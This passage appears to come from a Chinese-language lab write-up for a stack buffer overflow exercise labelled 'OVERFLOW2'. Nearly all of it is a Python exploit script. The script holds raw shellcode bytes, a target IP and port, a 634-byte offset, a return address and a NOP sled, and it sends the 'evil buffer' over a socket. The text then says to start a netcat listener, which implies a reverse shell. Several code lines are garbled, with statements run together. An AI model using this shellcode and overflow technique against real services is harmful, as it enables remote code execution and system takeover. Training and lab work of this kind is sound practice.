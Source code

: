 所以最后的有效载荷是我的卡莉

```
import socketip = "192.168.43.57"
port = 1337
buf = b""
buf += b"\xfc\xbb\x20\xd6\x6b\x2a\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
buf += b"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xdc\x3e\xe9\x2a\x1c"
buf += b"\xbf\x8e\xa3\xf9\x8e\x8e\xd0\x8a\xa1\x3e\x92\xde\x4d\xb4\xf6"
buf += b"\xca\xc6\xb8\xde\xfd\x6f\x76\x39\x30\x6f\x2b\x79\x53\xf3\x36"
buf += b"\xae\xb3\xca\xf8\xa3\xb2\x0b\xe4\x4e\xe6\xc4\x62\xfc\x16\x60"
buf += b"\x3e\x3d\x9d\x3a\xae\x45\x42\x8a\xd1\x64\xd5\x80\x8b\xa6\xd4"
buf += b"\x45\xa0\xee\xce\x8a\x8d\xb9\x65\x78\x79\x38\xaf\xb0\x82\x97"
buf += b"\x8e\x7c\x71\xe9\xd7\xbb\x6a\x9c\x21\xb8\x17\xa7\xf6\xc2\xc3"
buf += b"\x22\xec\x65\x87\x95\xc8\x94\x44\x43\x9b\x9b\x21\x07\xc3\xbf"
buf += b"\xb4\xc4\x78\xbb\x3d\xeb\xae\x4d\x05\xc8\x6a\x15\xdd\x71\x2b"
buf += b"\xf3\xb0\x8e\x2b\x5c\x6c\x2b\x20\x71\x79\x46\x6b\x1e\x4e\x6b"
buf += b"\x93\xde\xd8\xfc\xe0\xec\x47\x57\x6e\x5d\x0f\x71\x69\xa2\x3a"
buf += b"\xc5\xe5\x5d\xc5\x36\x2c\x9a\x91\x66\x46\x0b\x9a\xec\x96\xb4"
buf += b"\x4f\xa2\xc6\x1a\x20\x03\xb6\xda\x90\xeb\xdc\xd4\xcf\x0c\xdf"
buf += b"\x3e\x78\xa6\x1a\xa9\x47\x9f\x0f\x60\x20\xe2\x4f\x63\xec\x6b"
buf += b"\xa9\xe9\x1c\x3a\x62\x86\x85\x67\xf8\x37\x49\xb2\x85\x78\xc1"
buf += b"\x31\x7a\x36\x22\x3f\x68\xaf\xc2\x0a\xd2\x66\xdc\xa0\x7a\xe4"
buf += b"\x4f\x2f\x7a\x63\x6c\xf8\x2d\x24\x42\xf1\xbb\xd8\xfd\xab\xd9"
buf += b"\x20\x9b\x94\x59\xff\x58\x1a\x60\x72\xe4\x38\x72\x4a\xe5\x04"
buf += b"\x26\x02\xb0\xd2\x90\xe4\x6a\x95\x4a\xbf\xc1\x7f\x1a\x46\x2a"
buf += b"\x40\x5c\x47\x67\x36\x80\xf6\xde\x0f\xbf\x37\xb7\x87\xb8\x25"
buf += b"\x27\x67\x13\xee\x47\x8a\xb1\x1b\xe0\x13\x50\xa6\x6d\xa4\x8f"
buf += b"\xe5\x8b\x27\x25\x96\x6f\x37\x4c\x93\x34\xff\xbd\xe9\x25\x6a"
buf += b"\xc1\x5e\x45\xbf\xc1\x60\xb9\x40"
prefix = "OVERFLOW2 "
offset = 634
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload = bufpostfix = ""buffer = prefix + overflow + retn + padding + payload + postfixs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(buffer + "\r\n")
  print("Done!")
except:
  print("Could not connect.")
```

用 netcat 启动一个监听器

![](img/98b1cc4763ee1b3e8a482b709f77fbd1.png)
